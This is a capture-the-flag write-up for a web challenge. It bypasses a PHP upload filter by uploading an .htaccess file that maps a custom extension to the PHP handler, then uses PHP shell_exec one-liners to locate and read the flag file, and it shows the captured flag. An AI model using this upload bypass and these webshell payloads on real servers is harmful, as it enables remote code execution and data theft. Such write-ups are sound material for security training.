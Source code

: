 

Being devops cannot be improvised!

The developer has programmatically ensured that its file upload form does not accept PHP files, but has the underlying middleware been properly configured?

Your goal is to retrieve the file located in /private/flag.txt from the root of the web server.


First, try to send a file as `.htaccess`
```
AddType application/x-httpd-php .nglong05
AddHandler application/x-httpd-php .nglong05
php_flag engine on
```

**AddType application/x-httpd-php .nglong05**
-    This tells Apache to treat .nglong05 files as PHP scripts.


**AddHandler application/x-httpd-php .nglong05**

-    This ensures that Apache uses the PHP handler when accessing .nglong05 files.
-    Some configurations require AddHandler instead of AddType for executing PHP code.
-    This is especially useful on servers running Apache with mod_php.

**php_flag engine on**

-    This attempts to enable PHP execution, but it only works if PHP is running as an Apache module (mod_php).
-    If the server allows php_flag engine on, it might override any previous restriction disabling PHP execution.


Then, uploading any file with filename with `.nglong05` will make the sever executing php code.
```php
<?php echo shell_exec('find / -type f -name "flag.txt" 2>/dev/null'); ?>
```
```php
<?php echo shell_exec('cat /app/private/flag.txt'); ?>
```
```
Congrats! Here is your flag: ht@cc3ss2RCE4th%w1n
```